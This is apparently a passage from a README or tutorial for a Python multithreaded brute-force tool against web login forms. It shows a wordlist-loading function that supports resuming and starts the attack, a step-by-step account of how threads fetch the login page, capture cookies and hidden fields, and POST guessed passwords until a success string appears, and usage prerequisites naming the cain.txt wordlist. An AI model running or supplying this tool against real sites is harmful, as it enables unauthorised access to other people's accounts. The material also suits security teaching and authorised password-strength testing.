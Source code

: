 ```python
                print(f"[*] Password: {brute}")
                print("[*] Waiting for other threads to exit...")
```
### **💡 How it Works:**
1. **Loads the password list into a queue**  
2. **Starts multiple threads (`user_thread` = 10)**  
3. **Each thread:**  
   - Retrieves a password from the queue  
   - Loads the login page (**to capture cookies & hidden fields**)  
   - **Fills the login form** with username & password  
   - Sends a **POST request** to attempt login  
   - If the response **contains `success_check`**, login was **successful** 🎯  
4. **Stops other threads when a password is found**  

---

### **5️⃣ Load Wordlist & Start Attack**
```python
def build_wordlist(word_list_file):
    with open(word_list_file, "r") as l:
        raw_words = [line.rstrip("\n") for line in l]

    found_resume = False
    word_queue = queue.Queue()

    for word in raw_words:
        if resume:
            if found_resume:
                word_queue.put(word)
            else:
                if word == resume:
                    found_resume = True
                    print(f"Resuming wordlist from: {resume}")
        else:
            word_queue.put(word)
    return word_queue

words = build_wordlist(wordlist_file)
bruter_obj = Bruter(username, words)
bruter_obj.run_bruteforce()
```
- **Reads the password list (`cain.txt`)**  
- **Supports resuming** from a specific password  
- **Stores passwords in a queue** (`word_queue`)  
- **Starts the brute-force attack**  

---

## **🚀 How to Use**
### **📌 Prerequisites**
1. Install **Python 3.x**  
2. Download a password list (`cain.txt`)  
